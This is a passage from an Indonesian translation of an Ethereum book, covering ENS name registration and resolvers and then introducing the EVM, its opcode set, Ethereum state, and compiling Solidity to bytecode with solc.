4.  **Bersihkan setelahnya.** Jika Anda adalah pemenang, Anda dapat menyelesaikan lelang untuk mendapatkan kembali selisih antara tawaran Anda dan tawaran tertinggi kedua. Jika Anda lupa mengungkapkan, Anda dapat melakukan pengungkapan terlambat dan memulihkan sedikit dari tawaran Anda.

#### Lapisan Atas: Akta (The Deeds)

Lapisan atas ENS adalah kontrak super sederhana lainnya dengan satu tujuan: untuk **menyimpan dana**.

Ketika Anda memenangkan sebuah nama, dana sebenarnya tidak dikirim ke mana pun, tetapi hanya **dikunci** selama periode Anda ingin memegang nama tersebut (setidaknya satu tahun). Ini berfungsi seperti pembelian kembali yang dijamin: jika pemilik tidak menginginkan nama itu lagi, mereka dapat menjualnya kembali ke sistem dan memulihkan ether mereka (jadi biaya memegang nama adalah biaya peluang untuk melakukan sesuatu dengan pengembalian lebih besar dari nol).

Tentu saja, memiliki satu kontrak yang menyimpan jutaan dolar dalam ether terbukti sangat berisiko, jadi sebagai gantinya ENS membuat **kontrak akta (*deed contract*)** untuk setiap nama baru. Kontrak akta sangat sederhana (sekitar 50 baris kode), dan hanya memungkinkan dana untuk ditransfer kembali ke satu akun (pemilik akta) dan dipanggil oleh satu entitas tunggal (kontrak registrar). Pendekatan ini secara drastis mengurangi permukaan serangan di mana *bug* dapat membahayakan dana.

### Mendaftarkan Nama

Mendaftarkan nama di ENS adalah proses empat langkah, seperti yang kita lihat di “Lelang Vickrey” di halaman 285. Pertama kita menempatkan tawaran untuk nama yang tersedia, lalu kita mengungkapkan tawaran kita setelah 48 jam untuk mengamankan nama tersebut. Gambar 12-5 adalah diagram yang menunjukkan garis waktu pendaftaran.

Mari kita daftarkan nama pertama kita\!

Kita akan menggunakan salah satu dari beberapa antarmuka ramah pengguna yang tersedia untuk mencari nama yang tersedia, menempatkan tawaran pada nama `ethereumbook.eth`, mengungkapkan tawaran, dan mengamankan nama tersebut.

Ada sejumlah antarmuka berbasis web ke ENS yang memungkinkan kita berinteraksi dengan DApp ENS. Untuk contoh ini, kita akan menggunakan antarmuka **MyCrypto**, bersama dengan **MetaMask** sebagai dompet kita.

<p align="center">
  
</p>

Pertama, kita perlu memastikan nama yang kita inginkan tersedia. Saat menulis buku ini, kami sangat ingin mendaftarkan nama `mastering.eth`, tetapi sayang, Gambar 12-6 menunjukkan bahwa nama itu sudah diambil! Karena pendaftaran ENS hanya berlaku selama satu tahun, mungkin saja nama itu bisa didapatkan di masa depan. Sementara itu, mari kita cari `ethereumbook.eth` (Gambar 12-6).

<p align="center">
  
</p>

Bagus! Nama tersebut tersedia. Untuk mendaftarkannya, kita perlu melanjutkan dengan Gambar 12-7. Mari kita buka kunci MetaMask dan memulai lelang untuk `ethereumbook.eth`.

<p align="center">
  
</p>

Baik, ayo kita ajukan penawaran. Untuk melakukannya, kita perlu mengikuti langkah-langkah di Gambar 12-8.

<p align="center">
  
</p>

> Seperti yang disebutkan di “Lelang Vickrey” di halaman 285, Anda harus **mengungkapkan penawaran Anda dalam waktu 48 jam** setelah lelang selesai, atau Anda akan kehilangan dana dalam penawaran Anda. Apakah kami lupa melakukan ini dan kehilangan 0,01 ETH kami sendiri? Tentu saja kami lupa.
>
> **Ambil tangkapan layar (*screenshot*), simpan frasa rahasia Anda (sebagai cadangan untuk penawaran Anda), dan tambahkan pengingat di kalender Anda untuk tanggal dan waktu pengungkapan, agar Anda tidak lupa dan kehilangan dana Anda.**

Terakhir, kita konfirmasi transaksi dengan mengklik tombol kirim (*submit*) besar berwarna hijau yang ditunjukkan pada Gambar 12-9.

<p align="center">
  
</p>

Jika semua berjalan lancar, setelah mengirimkan transaksi dengan cara ini Anda dapat kembali dan **mengungkapkan penawaran dalam 48 jam**, dan nama yang Anda minta akan terdaftar ke alamat Ethereum Anda.

## Mengelola Nama ENS Anda

Setelah Anda mendaftarkan nama ENS, Anda dapat mengelolanya menggunakan antarmuka ramah pengguna lainnya: **ENS Manager**.

Sesampai di sana, masukkan nama yang ingin Anda kelola di kotak pencarian (lihat Gambar 12-10). Anda perlu memastikan dompet Ethereum Anda (misalnya, MetaMask) tidak terkunci, agar DApp ENS Manager dapat mengelola nama tersebut atas nama Anda.

<p align="center">
  
</p>

Dari antarmuka ini, kita dapat membuat subdomain, mengatur kontrak resolver (lebih lanjut tentang ini nanti), dan menghubungkan setiap nama ke sumber daya yang sesuai, seperti alamat Swarm dari *frontend* DApp.

### ### Membuat subdomain ENS

Pertama, mari kita buat subdomain untuk contoh Auction DApp kita (lihat Gambar 12-11). Kita akan menamai subdomainnya `auction`, sehingga nama yang sepenuhnya memenuhi syarat (*fully qualified name*) akan menjadi `auction.ethereumbook.eth`.

<p align="center">
  
</p>

Setelah kita membuat subdomain, kita dapat memasukkan `auction.ethereumbook.eth` di kotak pencarian dan mengelolanya, sama seperti kita mengelola domain `ethereumbook.eth` sebelumnya.

## Resolver ENS

Di ENS, menyelesaikan sebuah nama adalah proses **dua langkah**:

1.  Registri ENS dipanggil dengan nama yang akan diresolusi setelah di-*hash*. Jika catatan ada, registri akan mengembalikan alamat *resolver*-nya.
2.  *Resolver* dipanggil, menggunakan metode yang sesuai untuk sumber daya yang diminta. *Resolver* mengembalikan hasil yang diinginkan.

Proses dua langkah ini memiliki beberapa keuntungan. Memisahkan fungsionalitas *resolver* dari sistem penamaan itu sendiri memberi kita lebih banyak fleksibilitas. Pemilik nama dapat menggunakan *resolver* kustom untuk meresolusi tipe atau sumber daya apa pun, memperluas fungsionalitas ENS. Misalnya, jika di masa depan Anda ingin menautkan sumber daya geolokasi (bujur/lintang) ke nama ENS, Anda dapat membuat *resolver* baru yang menjawab kueri geolokasi. Siapa yang tahu aplikasi apa yang mungkin berguna di masa depan? Dengan *resolver* kustom, satu-satunya batasan adalah imajinasi Anda.

Untuk kenyamanan, ada ***resolver* publik default** yang dapat meresolusi berbagai sumber daya, termasuk alamat (untuk dompet atau kontrak) dan konten (hash Swarm untuk DApps atau kode sumber kontrak).

Karena kita ingin menautkan Auction DApp kita ke hash Swarm, kita dapat menggunakan *resolver* publik, yang mendukung resolusi konten, seperti yang ditunjukkan pada Gambar 12-12; kita tidak perlu membuat kode atau menerapkan *resolver* kustom.

<p align="center">
  
</p>

## Meresolusi Nama ke Hash Swarm (Konten)

Setelah resolver untuk `auction.ethereumbook.eth` diatur menjadi resolver publik, kita dapat mengaturnya untuk mengembalikan hash Swarm sebagai **konten** dari nama kita (lihat Gambar 12-13).

<p align="center">
  
</p>

Setelah menunggu sebentar hingga transaksi kita dikonfirmasi, kita seharusnya dapat meresolusi nama dengan benar. Sebelum mengatur nama, Auction DApp kita dapat ditemukan di gerbang Swarm berdasarkan *hash*-nya:

```
https://swarm-gateways.net/bzz:/ab164cf37dc10647e43a233486cdeffa8334b026e32a480dd9cbd020c12d4581
```

atau dengan mencari di peramban DApp atau gerbang Swarm untuk URL Swarm:

```
bzz://ab164cf37dc10647e43a233486cdeffa8334b026e32a480dd9cbd020c12d4581
```

Sekarang setelah kita menautkannya ke sebuah nama, segalanya menjadi jauh lebih mudah:

```
http://swarm-gateways.net/bzz:/auction.ethereumbook.eth/
```

Kita juga dapat menemukannya dengan mencari “auction.ethereumbook.eth” di dompet atau peramban DApp yang kompatibel dengan ENS (misalnya, Mist).

## Dari App menjadi DApp

Selama beberapa bagian terakhir, kita telah secara bertahap membangun sebuah aplikasi terdesentralisasi. Kita memulai dengan sepasang kontrak pintar untuk menjalankan lelang akta ERC721. Kontrak-kontrak ini dirancang untuk tidak memiliki akun yang mengatur atau berhak istimewa, sehingga operasinya benar-benar terdesentralisasi. Kita menambahkan *frontend*, yang diimplementasikan dalam JavaScript, yang menawarkan antarmuka yang nyaman dan ramah pengguna untuk DApp kita. Auction DApp menggunakan sistem penyimpanan terdesentralisasi Swarm untuk menyimpan sumber daya aplikasi seperti gambar. DApp ini juga menggunakan protokol komunikasi terdesentralisasi Whisper untuk menawarkan ruang obrolan terenkripsi untuk setiap lelang, tanpa server pusat apa pun.

Kita mengunggah seluruh *frontend* ke Swarm, sehingga DApp kita не bergantung pada server web mana pun untuk menyajikan file. Terakhir, kita mengalokasikan sebuah nama untuk DApp kita menggunakan ENS, menghubungkannya ke *hash* Swarm dari *frontend*, sehingga pengguna dapat mengaksesnya dengan nama yang sederhana dan mudah diingat yang dapat dibaca manusia.

Dengan setiap langkah ini, kita meningkatkan desentralisasi aplikasi kita. Hasil akhirnya adalah sebuah **DApp yang tidak memiliki titik otoritas pusat, tidak ada titik kegagalan pusat, dan mengekspresikan visi “web3”.**

Gambar 12-14 menunjukkan arsitektur lengkap dari Auction DApp.

<p align="center">
  
</p>

## Kesimpulan

Aplikasi terdesentralisasi adalah puncak dari visi Ethereum, seperti yang diungkapkan oleh para pendiri sejak rancangan-rancangan paling awal. Meskipun saat ini banyak aplikasi yang menyebut diri mereka “DApps”, sebagian besar belum sepenuhnya terdesentralisasi. Namun, kini sudah memungkinkan untuk membangun aplikasi yang hampir sepenuhnya terdesentralisasi. Seiring berjalannya waktu, seiring teknologi semakin matang, akan semakin banyak aplikasi kita yang dapat didesentralisasi, menghasilkan web yang lebih tangguh, tahan sensor, dan bebas.

---

# BAB 13
## Mesin Virtual Ethereum

Inti dari protokol dan operasi Ethereum adalah **Mesin Virtual Ethereum**, atau disingkat **EVM**. Seperti yang bisa Anda duga dari namanya, ini adalah sebuah mesin komputasi, yang tidak jauh berbeda dengan mesin virtual dari .NET Framework Microsoft, atau *interpreter* dari bahasa pemrograman lain yang dikompilasi ke *bytecode* seperti Java. Dalam bab ini kita akan melihat secara rinci tentang EVM, termasuk set instruksi, struktur, dan operasinya, dalam konteks pembaruan *state* Ethereum.

### Apa Itu EVM?

EVM adalah bagian dari Ethereum yang menangani **penempatan (*deployment*) dan eksekusi *smart contract***. Secara praktis, transaksi transfer nilai sederhana dari satu EOA ke EOA lain tidak perlu melibatkannya, tetapi semua hal lainnya akan melibatkan pembaruan *state* yang dihitung oleh EVM. Pada tingkat tinggi, EVM yang berjalan di *blockchain* Ethereum dapat dianggap sebagai **komputer terdesentralisasi global** yang berisi jutaan objek yang dapat dieksekusi, masing-masing dengan penyimpanan data permanennya sendiri.

EVM adalah mesin *state* yang **kuasi–Turing-*complete***; disebut “kuasi” karena semua proses eksekusi dibatasi pada jumlah langkah komputasi yang terbatas oleh jumlah ***gas*** yang tersedia untuk eksekusi *smart contract* tertentu. Dengan demikian, *halting problem* (masalah penghentian) dapat “diselesaikan” (semua eksekusi program akan berhenti) dan situasi di mana eksekusi mungkin (secara tidak sengaja atau sengaja) berjalan selamanya, yang dapat menghentikan seluruh platform Ethereum, dapat dihindari.

EVM memiliki **arsitektur berbasis *stack***, menyimpan semua nilai dalam memori pada sebuah *stack*. Ia bekerja dengan ukuran kata (*word size*) **256 bit** (terutama untuk memfasilitasi operasi *hashing* dan kurva eliptik bawaan) dan memiliki beberapa komponen data yang dapat dialamati:

* ROM kode program yang ***immutable*** (tidak dapat diubah), yang dimuat dengan *bytecode* dari *smart contract* yang akan dieksekusi.
* Memori yang ***volatile*** (tidak permanen), dengan setiap lokasi diinisialisasi secara eksplisit ke nilai nol.
* **Penyimpanan permanen** yang merupakan bagian dari *state* Ethereum, juga diinisialisasi ke nilai nol.

Ada juga seperangkat variabel lingkungan dan data yang tersedia selama eksekusi. Kita akan membahas ini lebih detail nanti di bab ini.

*Gambar 13-1 menunjukkan arsitektur dan konteks eksekusi EVM.*

<p align="center">
  
</p>

### Perbandingan dengan Teknologi yang Ada

Istilah “mesin virtual” sering kali diterapkan pada virtualisasi komputer nyata, biasanya oleh sebuah “***hypervisor***” seperti VirtualBox atau QEMU, atau dari sebuah instansi sistem operasi secara keseluruhan, seperti KVM pada Linux. Mesin-mesin virtual ini harus menyediakan abstraksi perangkat lunak, masing-masing, dari perangkat keras aktual, dan dari *system calls* (panggilan sistem) serta fungsionalitas kernel lainnya.

EVM beroperasi dalam domain yang jauh lebih terbatas: ia hanyalah sebuah mesin komputasi, dan dengan demikian menyediakan abstraksi hanya untuk **komputasi dan penyimpanan**, mirip dengan spesifikasi Java Virtual Machine (JVM), sebagai contoh. Dari sudut pandang tingkat tinggi, JVM dirancang untuk menyediakan lingkungan *runtime* yang agnostik terhadap OS atau perangkat keras *host* yang mendasarinya, memungkinkan kompatibilitas di berbagai macam sistem. Bahasa pemrograman tingkat tinggi seperti Java atau Scala (yang menggunakan JVM) atau C\# (yang menggunakan .NET) dikompilasi ke dalam set instruksi *bytecode* dari mesin virtual masing-masing. Dengan cara yang sama, EVM mengeksekusi set instruksi *bytecode*-nya sendiri (dijelaskan di bagian berikutnya), yang menjadi tujuan kompilasi dari bahasa pemrograman *smart contract* tingkat tinggi seperti LLL, Serpent, Mutan, atau Solidity.

Oleh karena itu, EVM **tidak memiliki kemampuan penjadwalan**, karena urutan eksekusi diatur secara eksternal—klien Ethereum menjalankan transaksi blok yang telah diverifikasi untuk menentukan *smart contract* mana yang perlu dieksekusi dan dalam urutan apa. Dalam hal ini, komputer dunia Ethereum bersifat *single-threaded*, seperti JavaScript. EVM juga tidak memiliki penanganan “antarmuka sistem” atau “dukungan perangkat keras”—tidak ada mesin fisik untuk berinteraksi. Komputer dunia Ethereum sepenuhnya virtual.

### Set Instruksi EVM (Operasi Bytecode)

Set instruksi EVM menawarkan sebagian besar operasi yang mungkin Anda harapkan, termasuk:

  * Operasi aritmetika dan logika *bitwise*
  * Pertanyaan konteks eksekusi
  * Akses ke *stack*, memori, dan penyimpanan
  * Operasi alur kontrol (*control flow*)
  * *Logging*, pemanggilan (*calling*), dan operator lainnya

Selain operasi *bytecode* yang umum, EVM juga memiliki akses ke informasi akun (misalnya, alamat dan saldo) dan informasi blok (misalnya, nomor blok dan harga *gas* saat ini).

Mari kita mulai eksplorasi EVM kita secara lebih rinci dengan melihat *opcode* yang tersedia dan apa yang mereka lakukan. Seperti yang mungkin Anda duga, semua operan diambil dari *stack*, dan hasilnya (jika ada) sering kali diletakkan kembali di atas *stack*.

> Daftar lengkap *opcode* dan biaya *gas* yang sesuai dapat ditemukan di Lampiran C.

*Opcode* yang tersedia dapat dibagi ke dalam kategori-kategori berikut:

#### Operasi Aritmetika

Instruksi *opcode* aritmetika:

  * `ADD` // Menambahkan dua item teratas di *stack*
  * `MUL` // Mengalikan dua item teratas di *stack*
  * `SUB` // Mengurangkan dua item teratas di *stack*
  * `DIV` // Pembagian integer
  * `SDIV` // Pembagian integer bertanda (*signed*)
  * `MOD` // Operasi modulo (sisa bagi)
  * `SMOD` // Operasi modulo bertanda (*signed*)
  * `ADDMOD` // Penjumlahan modulo dengan bilangan apa pun
  * `MULMOD` // Perkalian modulo dengan bilangan apa pun
  * `EXP` // Operasi eksponensial
  * `SIGNEXTEND` // Memperpanjang panjang integer bertanda komplemen dua (*two's complement*)
  * `SHA3` // Menghitung hash Keccak-256 dari sebuah blok memori

Perhatikan bahwa semua aritmetika dilakukan dengan **modulo $2^{256}$** (kecuali dinyatakan lain), dan bahwa pangkat nol dari nol, $0^0$, dianggap sebagai 1.

#### Operasi Stack

Instruksi manajemen *stack*, memori, dan penyimpanan:

  * `POP` // Menghapus item teratas dari *stack*
  * `MLOAD` // Memuat sebuah *word* dari memori
  * `MSTORE` // Menyimpan sebuah *word* ke memori
  * `MSTORE8` // Menyimpan sebuah *byte* ke memori
  * `SLOAD` // Memuat sebuah *word* dari penyimpanan
  * `SSTORE` // Menyimpan sebuah *word* ke penyimpanan
  * `MSIZE` // Mendapatkan ukuran memori aktif dalam *byte*
  * `PUSHx` // Menempatkan item `x` *byte* ke *stack*, di mana `x` bisa berupa integer dari 1 hingga 32 (satu *word* penuh)
  * `DUPx` // Menduplikasi item *stack* ke-`x`, di mana `x` bisa berupa integer dari 1 hingga 16
  * `SWAPx` // Menukar item *stack* ke-1 dan ke-(`x`+1), di mana `x` bisa berupa integer dari 1 hingga 16

#### Operasi Alur Proses

Instruksi untuk alur kontrol:

  * `STOP` // Menghentikan eksekusi
  * `JUMP` // Mengatur *program counter* ke nilai apa pun
  * `JUMPI` // Mengubah *program counter* secara kondisional
  * `PC` // Mendapatkan nilai *program counter* (sebelum penambahan yang terkait dengan instruksi ini)
  * `JUMPDEST` // Menandai tujuan yang valid untuk *jump*

#### Operasi Sistem

*Opcode* untuk sistem yang mengeksekusi program:

  * `LOGx` // Menambahkan catatan log dengan `x` topik, di mana `x` adalah integer dari 0 hingga 4
  * `CREATE` // Membuat akun baru dengan kode terkait
  * `CALL` // Melakukan *message-call* ke akun lain, yaitu menjalankan kode akun lain
  * `CALLCODE` // Melakukan *message-call* ke akun ini dengan kode akun lain
  * `RETURN` // Menghentikan eksekusi dan mengembalikan data output
  * `DELEGATECALL` // Melakukan *message-call* ke akun ini dengan kode akun alternatif, tetapi mempertahankan nilai *sender* dan *value* saat ini
  * `STATICCALL` // Melakukan *static message-call* ke sebuah akun
  * `REVERT` // Menghentikan eksekusi, mengembalikan perubahan *state*, tetapi mengembalikan data dan sisa *gas*
  * `INVALID` // Instruksi tidak valid yang ditunjuk
  * `SELFDESTRUCT` // Menghentikan eksekusi dan mendaftarkan akun untuk dihapus

#### Operasi Logika

*Opcode* untuk perbandingan dan logika *bitwise*:

  * `LT` // Perbandingan kurang dari (\<)
  * `GT` // Perbandingan lebih dari (\>)
  * `SLT` // Perbandingan kurang dari bertanda (*signed*)
  * `SGT` // Perbandingan lebih dari bertanda (*signed*)
  * `EQ` // Perbandingan sama dengan (==)
  * `ISZERO` // Operator NOT sederhana
  * `AND` // Operasi AND *bitwise*
  * `OR` // Operasi OR *bitwise*
  * `XOR` // Operasi XOR *bitwise*
  * `NOT` // Operasi NOT *bitwise*
  * `BYTE` // Mengambil satu *byte* dari sebuah *word* 256-bit penuh

#### Operasi Lingkungan

*Opcode* yang berhubungan dengan informasi lingkungan eksekusi:

  * `GAS` // Mendapatkan jumlah *gas* yang tersedia (setelah pengurangan untuk instruksi ini)
  * `ADDRESS` // Mendapatkan alamat akun yang sedang dieksekusi
  * `BALANCE` // Mendapatkan saldo akun dari akun mana pun
  * `ORIGIN` // Mendapatkan alamat EOA yang memulai eksekusi EVM ini
  * `CALLER` // Mendapatkan alamat pemanggil yang bertanggung jawab langsung atas eksekusi ini
  * `CALLVALUE` // Mendapatkan jumlah ether yang didepositkan oleh pemanggil yang bertanggung jawab atas eksekusi ini
  * `CALLDATALOAD` // Mendapatkan data input yang dikirim oleh pemanggil yang bertanggung jawab atas eksekusi ini
  * `CALLDATASIZE` // Mendapatkan ukuran data input
  * `CALLDATACOPY` // Menyalin data input ke memori
  * `CODESIZE` // Mendapatkan ukuran kode yang berjalan di lingkungan saat ini
  * `CODECOPY` // Menyalin kode yang berjalan di lingkungan saat ini ke memori
  * `GASPRICE` // Mendapatkan harga *gas* yang ditentukan oleh transaksi asal
  * `EXTCODESIZE` // Mendapatkan ukuran kode dari akun mana pun
  * `EXTCODECOPY` // Menyalin kode dari akun mana pun ke memori
  * `RETURNDATASIZE` // Mendapatkan ukuran data output dari pemanggilan sebelumnya di lingkungan saat ini
  * `RETURNDATACOPY` // Menyalin data output dari pemanggilan sebelumnya ke memori

#### Operasi Blok

*Opcode* untuk mengakses informasi pada blok saat ini:

  * `BLOCKHASH` // Mendapatkan *hash* dari salah satu dari 256 blok yang paling baru diselesaikan
  * `COINBASE` // Mendapatkan alamat penerima manfaat blok untuk hadiah blok
  * `TIMESTAMP` // Mendapatkan *timestamp* blok
  * `NUMBER` // Mendapatkan nomor blok
  * `DIFFICULTY` // Mendapatkan tingkat kesulitan (*difficulty*) blok
  * `GASLIMIT` // Mendapatkan batas *gas* blok

### State Ethereum

Tugas EVM adalah memperbarui *state* Ethereum dengan menghitung transisi *state* yang valid sebagai hasil dari eksekusi kode *smart contract*, sebagaimana didefinisikan oleh protokol Ethereum. Aspek ini mengarah pada deskripsi Ethereum sebagai **mesin *state* berbasis transaksi**\*, yang mencerminkan fakta bahwa aktor eksternal (yaitu, pemegang akun dan penambang) memulai transisi *state* dengan membuat, menerima, dan mengurutkan transaksi. Penting pada titik ini untuk mempertimbangkan apa yang membentuk *state* Ethereum.

Di tingkat teratas, kita memiliki ***world state*** **Ethereum**. *World state* adalah pemetaan alamat Ethereum (nilai 160-bit) ke akun. Di tingkat yang lebih rendah, setiap alamat Ethereum mewakili sebuah akun yang terdiri dari saldo ether (disimpan sebagai jumlah wei yang dimiliki oleh akun), sebuah ***nonce*** (mewakili jumlah transaksi yang berhasil dikirim dari akun ini jika itu adalah EOA, atau jumlah kontrak yang dibuat olehnya jika itu adalah akun kontrak), **penyimpanan** akun (yang merupakan penyimpanan data permanen, hanya digunakan oleh *smart contract*), dan **kode program** akun (lagi-lagi, hanya jika akun tersebut adalah akun *smart contract*). Sebuah EOA akan selalu tidak memiliki kode dan penyimpanan yang kosong.

Ketika sebuah transaksi menghasilkan eksekusi kode *smart contract*, sebuah EVM diinisiasi dengan semua informasi yang diperlukan sehubungan dengan blok saat ini yang sedang dibuat dan transaksi spesifik yang sedang diproses. Secara khusus, ROM kode program EVM dimuat dengan kode dari akun kontrak yang dipanggil, *program counter* diatur ke nol, penyimpanan dimuat dari penyimpanan akun kontrak, memori diatur menjadi semua nol, dan semua variabel blok dan lingkungan diatur. Variabel kunci adalah **pasokan *gas*** untuk eksekusi ini, yang diatur ke jumlah *gas* yang dibayar oleh pengirim di awal transaksi. Seiring berjalannya eksekusi kode, pasokan *gas* berkurang sesuai dengan biaya *gas* dari operasi yang dieksekusi. Jika pada suatu titik pasokan *gas* berkurang menjadi nol, kita mendapatkan pengecualian **“Out of Gas” (OOG)**; eksekusi segera berhenti dan transaksi dibatalkan. Tidak ada perubahan pada *state* Ethereum yang diterapkan, kecuali *nonce* pengirim yang ditambah satu dan saldo ether mereka berkurang untuk membayar penerima manfaat blok atas sumber daya yang digunakan untuk mengeksekusi kode hingga titik penghentian. Pada titik ini, Anda dapat membayangkan EVM berjalan pada salinan *world state* Ethereum yang terisolasi (*sandboxed*), di mana versi terisolasi ini akan dibuang sepenuhnya jika eksekusi tidak dapat selesai karena alasan apa pun. Namun, jika eksekusi berhasil diselesaikan, maka *world state* yang sebenarnya diperbarui agar sesuai dengan versi terisolasi, termasuk perubahan apa pun pada data penyimpanan kontrak yang dipanggil, kontrak baru yang dibuat, dan transfer saldo ether yang diinisiasi.

Perhatikan bahwa karena sebuah *smart contract* itu sendiri dapat secara efektif memulai transaksi, eksekusi kode adalah proses rekursif. Sebuah kontrak dapat memanggil kontrak lain, dengan setiap panggilan menghasilkan EVM lain yang diinisiasi di sekitar target baru panggilan tersebut. Setiap instansiasi memiliki *world state* terisolasinya yang diinisialisasi dari *sandbox* EVM di tingkat atas. Setiap instansiasi juga diberi jumlah *gas* tertentu untuk pasokan *gas*-nya (tentu saja tidak melebihi jumlah *gas* yang tersisa di tingkat atas), dan karenanya mungkin juga berhenti dengan pengecualian karena diberi terlalu sedikit *gas* untuk menyelesaikan eksekusinya. Sekali lagi, dalam kasus seperti itu, *state sandbox* dibuang, dan eksekusi kembali ke EVM di tingkat atas.

### Mengompilasi Solidity ke Bytecode EVM

Mengompilasi file sumber Solidity ke *bytecode* EVM dapat dicapai melalui beberapa metode. Di Bab 2 kita menggunakan kompiler Remix *online*. Di bab ini, kita akan menggunakan *executable* `solc` di baris perintah. Untuk daftar opsi, jalankan perintah berikut:

```sh
$ solc --help
```

Menghasilkan aliran *opcode* mentah dari file sumber Solidity mudah dicapai dengan opsi baris perintah `--opcodes`. Aliran *opcode* ini menghilangkan beberapa informasi (opsi `--asm` menghasilkan informasi lengkap), tetapi cukup untuk diskusi ini. Sebagai contoh, mengompilasi file Solidity contoh, `Example.sol`, dan mengirimkan output *opcode* ke direktori bernama `BytecodeDir` dilakukan dengan perintah berikut:

```sh
$ solc -o BytecodeDir --opcodes Example.sol
```

atau:

```sh
$ solc -o BytecodeDir --asm Example.sol
```

Perintah berikut akan menghasilkan biner *bytecode* untuk program contoh kita:

```sh
$ solc -o BytecodeDir --bin Example.sol
```

File *opcode* output yang dihasilkan akan bergantung pada kontrak spesifik yang terkandung dalam file sumber Solidity. File Solidity sederhana kita `Example.sol` hanya memiliki satu kontrak, bernama `example`:

```solidity
pragma solidity ^0.4.19;

contract example {
    address contractOwner;

    function example() {
        contractOwner = msg.sender;
    }
}
```

Seperti yang Anda lihat, yang dilakukan kontrak ini hanyalah menyimpan satu variabel *state* persisten, yang diatur sebagai alamat akun terakhir yang menjalankan kontrak ini.

Jika Anda melihat di dalam direktori `BytecodeDir`, Anda akan melihat file *opcode* `example.opcode`, yang berisi instruksi *opcode* EVM dari kontrak `example`. Membuka file `example.opcode` di editor teks akan menunjukkan hal berikut:

```
PUSH1 0x60 PUSH1 0x40 MSTORE CALLVALUE ISZERO PUSH1 0xE JUMPI PUSH1 0x0 DUP1 REVERT JUMPDEST CALLER PUSH1 0x0 DUP1 PUSH2 0x100 EXP DUP2 SLOAD DUP2 PUSH20 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF MUL NOT AND SWAP1 DUP4 PUSH20 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF AND MUL OR SWAP1 SSTORE POP PUSH1 0x35 DUP1 PUSH1 0x5B PUSH1 0x0 CODECOPY PUSH1 0x0 RETURN STOP PUSH1 0x60 PUSH1 0x40 MSTORE PUSH1 0x0 DUP1 REVERT STOP LOG1 PUSH6 0x627A7A723058 KECCAK256 JUMP 0xb9 SWAP14 0xcb 0x1e 0xdd RETURNDATACOPY 0xec 0xe0 0x1f 0x27 0xc9 PUSH5 0x9C5ABCC14A NUMBER 0x5e INVALID EXTCODESIZE 0xdb 0xcf EXTCODESIZE 0x27 EXTCODESIZE 0xe2 0xb8 SWAP10 0xed 0x
```

Mengompilasi contoh dengan opsi `--asm` menghasilkan file bernama `example.evm` di direktori `BytecodeDir` kita. Ini berisi deskripsi tingkat yang sedikit lebih tinggi dari instruksi *bytecode* EVM, bersama dengan beberapa anotasi yang membantu:

```asm
/* "Example.sol":26:132 contract example {... */
mstore(0x40, 0x60)
/* "Example.sol":74:130 function example() {... */
jumpi(tag_1, iszero(callvalue))
0x0
dup1
revert
tag_1:
/* "Example.sol":115:125 msg.sender */
caller
/* "Example.sol":99:112 contractOwner */
0x0
dup1
/* "Example.sol":99:125 contractOwner = msg.sender */
0x100
exp
dup2
sload
dup2
0xffffffffffffffffffffffffffffffffffffffff
mul
not
and
swap1
dup4
0xffffffffffffffffffffffffffffffffffffffff
and
mul
or
swap1
sstore
pop
/* "Example.sol":26:132 contract example {... */
dataSize(sub_0)
dup1
dataOffset(sub_0)
0x0
codecopy
0x0
return
stop
sub_0: assembly {
    /* "Example.sol":26:132
    mstore(0x40, 0x60)
    0x0
    dup1
    revert
    contract example {... */
    auxdata: 0xa165627a7a7230582056b99dcb1edd3eece01f27c9649c5abcc14a435efe3b...
}
```

Opsi `--bin-runtime` menghasilkan *bytecode* heksadesimal yang dapat dibaca mesin:

```
60606040523415600e57600080fd5b336000806101000a81548173
ffffffffffffffffffffffffffffffffffffffff
021916908373
ffffffffffffffffffffffffffffffffffffffff
160217905550603580605b6000396000f3006060604052600080fd00a165627a7a7230582056b...
```

Anda dapat menyelidiki apa yang terjadi di sini secara detail menggunakan daftar *opcode* yang diberikan di “Set Instruksi EVM (Operasi Bytecode)”. Namun, itu adalah tugas yang cukup besar, jadi mari kita mulai dengan memeriksa empat instruksi pertama:

`PUSH1 0x60 PUSH1 0x40 MSTORE CALLVALUE`

Di sini kita memiliki `PUSH1` diikuti oleh satu *byte* mentah dengan nilai `0x60`. Instruksi EVM ini mengambil satu *byte* yang mengikuti *opcode* dalam kode program (sebagai nilai literal) dan mendorongnya ke atas *stack*. Dimungkinkan untuk mendorong nilai berukuran hingga 32 *byte* ke *stack*, seperti pada:
`PUSH32 0x436f6e67726174756c6174696f6e732120536f6f6e20746f206d617374657221`

*Opcode* `PUSH1` kedua dari `example.opcode` menyimpan `0x40` ke atas *stack* (mendorong `0x60` yang sudah ada di sana turun satu slot).

